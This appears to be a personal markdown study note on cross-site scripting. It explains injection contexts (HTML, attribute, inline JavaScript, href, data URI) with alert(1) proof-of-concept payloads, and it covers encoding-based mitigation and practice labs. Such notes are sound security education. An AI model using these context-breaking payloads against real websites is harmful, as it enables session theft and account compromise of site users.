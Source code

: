 When you think of XSS most of the time, response body should come to your mind as 99% of XSS happens through HTTP response body

When you make a request to a website, mainly 3 different type of files are returned: HTML, CSS and, JS files

#### Quick test for XSS using 
```
test'"><
```

XSS is basically a browser manipulation.

#### Closing tags before injecting the XSS

Sometimes, when the XSS injection is in a tag (ex: `<textarea>`), the browser might not execute the script. Therefore, you need to close the tag first:

Here this XSS Injection **does not work** as the browser does not understand. To confirm this,  you need to look at the page source code

```html
<!-- ❌ Not Working XSS Injection -->
<html>
	<body>
		<textarea>
			Hello, <script>alert(1)</script>
		</textarea>
	</body>
</html>
```

```html
<!-- ✅ Working XSS Injection -->
<html>
	<body>
		<textarea>
			Hello, </textarea><script>alert(1)</script>
		</textarea>
	</body>
</html>
```


> [!NOTE] HTML Context `< >`
> HTML Context "`< >`" is very important when it comes to XSS as without it you can't do XSS

## Attribute Context

Imagine you are submitting a form and your payload goes here
```html
<html>
	<body>
		<form>
			<input name="keyword" value="<script>alert(1)</script>">
		</form>
	</body>
</html>
```

The payload above **won't work** as your injection is stuck inside the value
You have to first look at where you are (or will be after submitting form)
For your XSS Injection to work, you first have to go back to HTML context (outside of input value)

```html
<html>
	<body>
		<form>
		<input name="keyword" value=""&gt;&lt;script&gt;alert(1)&lt;/script&gt; ">
		</form>
	</body>
</html>
```

Or even better
```html
<html>
	<body>
		<form>
		<input name="keyword" value=" " onmouseover="alert(1)">
		</form>
	</body>
</html>
```

> [!info] IE version 8 and below XSS trick
> For IE version 8 (or 9) and below, backticks cause the attribute string to end
> ```html
> <input name="keyword" value=""`` >
> ```

In Total there are about 29 Contexts

## JSINLINE Context

```http
www.x.com/?id=alert(1)
```

```html
<html>
	<body>
		<input type="button" onclick="saveForm(alert(1))">
	</body>
</html>
```

## HREF Context

If in some way, user data is in a link tag `href` like this
```html
<html>
	<body>
		<a href="USER_DATA">click me</a>
	</body>
</html>
```

then you can try doing this:
```html
<html>
	<body>
		<a href="javascript:alert(1)">click me</a>
	</body>
</html>
```

> [!attention] `javascript:alert(1)`
> `javascript:alert(1)` only works in `href` attribute of `<a>` tag

## Data: Text/javascript protocol

```http
data:text/javascript,alert(1)
```

## XSS types:

1) [[Reflected XSS]]
2) [[Stored XSS]]
3) [[Self XSS]]
4) [[DOM XSS]]


## Mitigation
You have to encode HTML Context (`< >`) characters
Meaning:
`<` = `&lt;`
`>` = `&gt;`

INPUT VALIDATION
OUTPUT ENCODING

```html
<html>
	<body>
		<a href="{{ encoder.HrefContextEncoder($untrusted_data) }}">click me</a>
	</body>
</html>
```

## Related links:

Also look at [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)

Check out these important videos by mdisec to learn more:
1) [XSS Part 1](https://youtu.be/NFD3vZ-lIgI?list=PLwP4ObPL5GY940XhCtAykxLxLEOKCu0nT)
2) [XSS Part 2](https://youtu.be/xXbDhyKo9B8)
3) [Solving XSS expert lab DOM clobbering](https://youtu.be/Cy9qGc_A_Ic?list=PLwP4ObPL5GY940XhCtAykxLxLEOKCu0nT)

XSS Exercises:
1) Google XSS Challenge
2) [Public Firing Range](https://public-firing-range.appspot.com/) (Study XSS Contexts here)
3) [Prompt.ml](https://prompt.ml/0)
